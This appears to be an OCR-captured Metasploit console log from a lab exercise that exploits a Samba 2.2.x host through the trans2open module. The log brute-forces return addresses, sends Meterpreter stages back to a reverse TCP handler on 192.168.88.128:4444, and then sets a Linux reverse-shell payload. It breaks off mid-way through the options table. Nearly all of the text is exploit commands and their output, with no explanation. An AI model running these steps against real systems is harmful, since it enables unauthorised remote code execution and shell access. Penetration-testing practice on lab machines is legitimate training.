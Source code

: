 ```bash
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.88.129   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.88.128:4444
[*] 192.168.88.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.88.129:139 - Trying return address 0xbffffafc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] 192.168.88.129 - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (127.0.0.1 -> 192.168.88.129:32800) at 2020-01-02 18:10:24 +0100
[*] 192.168.88.129:139 - Trying return address 0xbffff9fc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] Meterpreter session 2 opened (192.168.88.128:4444 -> 192.168.88.129:32801) at 2020-01-02 18:10:25 +0100
[*] 192.168.88.129 - Meterpreter session 2 closed.  Reason: Died
[*] 192.168.88.129:139 - Trying return address 0xbffff8fc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] 192.168.88.129 - Meterpreter session 3 closed.  Reason: Died
[*] Meterpreter session 3 opened (127.0.0.1 -> 192.168.88.129:32802) at 2020-01-02 18:10:27 +0100
[*] 192.168.88.129:139 - Trying return address 0xbffff7fc...
[*] Sending stage (985320 bytes) to 192.168.88.129
[*] 192.168.88.129 - Meterpreter session 4 closed.  Reason: Died
[*] Meterpreter session 4 opened (127.0.0.1 -> 192.168.88.129:32803) at 2020-01-02 18:10:28 +0100

msf5 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf5 exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.88.129   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
```